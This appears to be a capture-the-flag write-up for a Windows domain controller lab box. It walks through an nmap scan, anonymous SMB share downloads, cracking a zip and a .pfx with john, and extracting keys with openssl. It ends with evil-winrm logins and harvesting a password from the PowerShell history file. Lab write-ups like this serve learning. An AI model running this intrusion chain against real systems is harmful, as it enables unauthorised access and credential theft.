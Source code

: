 
└─$ nmap -sC -sV -Pn 10.10.11.152 -oN initial.nmap

    # Nmap 7.92 scan initiated Wed Apr 27 10:30:54 2022 as: nmap -sC -sV -Pn -oN initial.nmap 10.10.11.152
    Nmap scan report for 10.10.11.152
    Host is up (0.019s latency).
    Not shown: 989 filtered tcp ports (no-response)
    PORT     STATE SERVICE           VERSION
    53/tcp   open  domain            Simple DNS Plus
    88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-04-27 22:31:05Z)
    135/tcp  open  msrpc             Microsoft Windows RPC
    139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
    389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ldapssl?
    3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
    3269/tcp open  globalcatLDAPssl?
    Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: 7h59m59s
    | smb2-security-mode: 
    |   3.1.1: 
    |_    Message signing enabled and required
    | smb2-time: 
    |   date: 2022-04-27T22:31:13
    |_  start_date: N/A

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Apr 27 10:31:49 2022 -- 1 IP address (1 host up) scanned in 55.41 seconds

smbclient -L //10.10.11.152 -N

      Sharename       Type      Comment
      ---------       ----      -------
      ADMIN$          Disk      Remote Admin
      C$              Disk      Default share
      IPC$            IPC       Remote IPC
      NETLOGON        Disk      Logon server share 
      Shares          Disk      
      SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.
    do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
    Unable to connect with SMB1 -- no workgroup available

Connect to `Shares` folder
`└─$ smbclient \\\\10.10.11.152\\Shares -N`

Once you are in, `mget` all the files in Shares folder. Use `prompt` to get rid of the yes/no confirmation. 

    smb: \> help prompt
    HELP prompt:
      toggle prompting for filenames for mget and mput

Crack the .zip with `zip2john` and `john` and get the .pfx file

Next step is to crack the password for the .pfx file with `pfx2john` and extract the `.crt` and `private key` from the .pfx file with the password found within .pfx. Use the following command to extract:

[Reference](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)

Run the following command to extract the private key:

    openssl pkcs12 -in [yourfile.pfx] -nocerts -out [private.key]
    
Run the following command to extract the certificate:

    openssl pkcs12 -in [yourfile.pfx] -clcerts -nokeys -out [legacyy.crt]

Use the following command to get the foothold and get user.txt

    └─$ evil-winrm -i 10.10.11.152 -S -c legacyy.crt -k private.key
    
Next we can use the following command `get-psreadlineoption` to get the path to powershell history file

Read the history file and you should be able to get the password for another user

Access the user powershell with this command `└─$ evil-winrm -i 10.10.11.152 -u $USER -p $PASSWORD -S`
